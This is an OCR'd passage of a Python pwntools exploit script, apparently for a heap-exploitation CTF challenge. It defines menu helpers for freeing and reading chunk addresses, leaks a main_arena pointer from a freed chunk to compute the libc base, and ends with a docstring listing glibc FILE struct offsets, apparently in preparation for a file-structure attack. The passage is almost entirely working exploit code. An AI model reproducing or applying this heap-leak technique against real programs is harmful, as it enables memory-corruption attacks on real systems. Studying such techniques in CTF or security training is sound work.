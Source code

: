 ```python
    io.sendline("2")
    io.sendlineafter("Address to free: ", hex(addr))
    io.recvuntil(">>> ")

def read(addr: int):
    addr = hex(addr)
    io.sendline("3")
    io.sendlineafter("Address to show (16-byte sneak peak): ", addr)
    data = io.recvline()
    data = data.strip()
    data = data.replace(b" ", b"")
    io.recvuntil(">>> ")
    return bytearray.fromhex(data.decode("utf8"))

def exit():
    io.sendline("4")

io = start()

chunk_A = malloc(0x100, "AAAA")
chunk_B = malloc(0x100, "BBBB")

# Free chunk A
free(chunk_A)

# Read fd from chunk A
chunk_A_data = read(chunk_A)
main_arena_leak = u64(chunk_A_data[:8])
libc.address = (main_arena_leak - 88) - libc.sym.main_arena
log.info(f"libc : {libc.address:#x}")

# Free chunk B
free(chunk_B)

"""
FILE
    +0x0000 _flags               : int
    +0x0008 _IO_read_ptr         : char *
    +0x0010 _IO_read_end         : char *
    +0x0018 _IO_read_base        : char *
    +0x0020 _IO_write_base       : char *
    +0x0028 _IO_write_ptr        : char *
    +0x0030 _IO_write_end        : char *
    +0x0038 _IO_buf_base         : char *
    +0x0040 _IO_buf_end          : char *
    +0x0048 _IO_save_base        : char *
    +0x0050 _IO_backup_base      : char *
    +0x0058 _IO_save_end         : char *
    +0x0060 _markers             : struct _IO_marker *
    +0x0068 _chain               : struct _IO_FILE *
    +0x0070 _fileno              : int
    +0x0074 _flags2              : int
    +0x0078 _old_offset          : __off_t
    +0x0080 _cur_column          : short unsigned int
    +0x0082 _vtable_offset       : signed char
    +0x0083 _shortbuf            : char [1]
    +0x0088 _lock                : _IO_lock_t *
    +0x0090 _offset              : __off64_t
    +0x0098 _codecvt             : struct _IO_codecvt *
    +0x00a0 _wide_data           : struct _IO_wide_data *
    +0x00a8 _freeres_list        : struct _IO_FILE *
    +0x00b0 _freeres_buf         : void *
    +0x00b8 __pad5               : size_t
```